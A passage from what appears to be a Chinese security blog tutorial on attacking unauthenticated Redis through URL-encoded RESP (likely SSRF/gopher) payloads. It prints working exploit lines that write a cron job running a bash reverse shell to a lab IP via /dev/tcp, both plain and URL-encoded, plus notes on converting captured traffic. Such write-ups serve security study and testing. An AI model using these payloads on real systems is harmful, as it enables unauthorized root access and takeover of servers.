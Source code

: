  

 

 说我们长度过长，我们重新换一个：

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122541663-1781553001.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122541663-1781553001.png)

 

 

 



```
*1%0D%0A%247%0D%0ACOMMAND%0D%0A*2%0D%0A%244%0D%0Aecho%0D%0A%243%0D%0A123
```

可以看到输出了123。

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122748239-805902371.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122748239-805902371.png)

利用redis未授权访问攻击redis

攻击redis的exp（这个其实利用的就是redis反弹shell的方式）



```
test

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.110.133/4789 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

 

从而捕获到数据，并进行转换：

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226124316159-1288822610.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226124316159-1288822610.png)



```
*1%0D%0A%247%0D%0ACOMMAND%0D%0A*3%0D%0A%243%0D%0Aset%0D%0A%245%0D%0Ashell%0D%0A%2464%0D%0A%0D%0A%0D%0A*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%3E%26%2Fdev%2Ftcp%2F192.168.110.141%2F4789%200%3E%261%0D%0A%0D%0A%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A%2Fvar%2Fspool%2Fcron%2F%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A*1%0D%0A%244%0D%0Asave
```

 

转换规则如下：

如果第一个字符是>或者<那么丢弃该行字符串，表示请求和返回的时间。

如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
